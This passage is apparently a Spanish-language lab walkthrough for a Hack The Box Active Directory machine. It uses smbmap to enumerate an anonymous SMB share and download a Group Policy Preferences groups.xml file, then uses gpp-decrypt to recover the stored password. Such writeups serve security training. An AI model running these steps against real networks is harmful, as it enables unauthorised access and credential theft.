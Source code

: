 Veremos que solo podemos leer el recurso compartido llamado `Replication` por lo que nos podremos conectar a el sin ningun tipo de autenticacion.

```shell
smbmap -H <IP_VICTIM> -r Replication
```

Y esto nos dara la informacion de lo que contiene dicho recurso compartido, imaginemos que vemos que hay un archivo llamado `./Replication` y un directorio llamado `active.htb`, por lo que veremos que contiene de la siguiente forma.

```shell
smbmap -H <IP_VICTIM> -r Replication/active.htb
```

Vemos que hay mas carpetas, por lo que ya tendriamos que ir una por una investigando.

Pero imaginemos que la ruta donde esta la posible vulnerabilidad es la siguiente:

```
Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
```

Pues con el siguiente comando veremos que hay en `Groups`.

```shell
smbmap -H <IP_VICTIM> -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
```

Vemos que hay un archivo bastante interesante llamado `groups.xml` por lo que nos lo descargaremos de la siguiente forma:

```shell
smbmap -H <IP_VICTIM> --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/groups.xml
```

Y esto lo que hara sera descargarnos el archivo en nuestro directorio actual.

vendria con un nombre muy largo, por lo que se lo podriamos cambiar con `mv` y se lo dejaremos en `groups.xml`

Y si vemos el contenido veremos que contiene politicas de grupo de un entorno de `Active Directory`, con esto suele ocurrir que suele venir algun hash de alguna contraseña que viene protegida y en este caso si viene con un hash que intentaremos crackear.

Pero tendremos que utilizar una herramienta especial para poder crackear contraseñas que se encuentren dentro del archivo `group.xml` de un entorno de `Active Directory`.

Por lo que antes nos instalaremos la herramienta:

```shell
apt install gpp-decrypt
```

Y la utilizaremos de la siguiente forma:

```shell
gpp-decrypt "<HASH_PASSWORD_groups.xml>"
```
